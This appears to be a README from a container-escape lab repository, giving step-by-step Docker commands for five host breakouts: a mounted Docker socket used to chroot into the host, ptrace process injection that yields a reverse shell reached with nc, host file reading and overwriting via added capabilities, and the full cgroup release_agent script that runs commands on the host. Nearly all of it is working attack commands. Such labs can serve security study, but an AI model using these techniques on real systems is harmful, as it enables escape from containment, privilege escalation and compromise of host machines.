 # Container Escape example

## Use mounted Docker Socket

1. Build the image with `docker build --tag=escape_1 1_docker_socket`
2. Run the container with `docker run -it --cap-drop=ALL -v /var/run/docker.sock:/run/docker.sock escape_1 bash`
3. Inside the container run `docker run -it --privileged -v /:/host/ ubuntu bash -c "chroot /host/"`

## Process Injection

1. Build the image with `docker build --tag=escape_2 2_process_injection`
2. Run a test python webserver with `/usr/bin/python3 -m http.server 8080`
3. Run the container with `docker run -it --pid=host --cap-drop=ALL --cap-add=SYS_PTRACE --security-opt apparmor=unconfined escape_2 bash`
4. Inside the container run `ps -eaf | grep "/usr/bin/python3 -m http.server 8080" | head -n 1`
5. Get the PID of the webserer end run `./inject <PID>`
6. If all is well you have a reverse shell waiting on port 8080, connect with `nc <HOST-IP> 5600`

## Reading files from host

1. Build the image with `docker build --tag=escape_3 3_read_host_files`
2. Run the container with `docker run -it --cap-drop=ALL --cap-add=DAC_READ_SEARCH escape_3 bash`
3. Inside the container run `./shocker <PATH-TO-HOST-FILE> <DESTINATION-FILE>`

## Host file overwrite

1. Build the image with `docker build --tag=escape_4 4_host_file_overwrite`
2. Run the container with `docker run -it --cap-drop=ALL --cap-add=DAC_OVERRIDE --cap-add=DAC_READ_SEARCH --cap-add=CHOWN escape_4 bash`
3. Inside the container run `./read <PATH-TO-HOST-FILE> <DESTINATION-FILE>` to read file from host
4. Inside the container run `./write <PATH-TO-HOST-FILE> <SOURCE-FILE>` to write a file from container to host

## Abusing notify on release

1. Run the container with `docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash`
2. Inside the container run

```
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

echo '#!/bin/sh' > /cmd
# command to run in the host
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd

sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
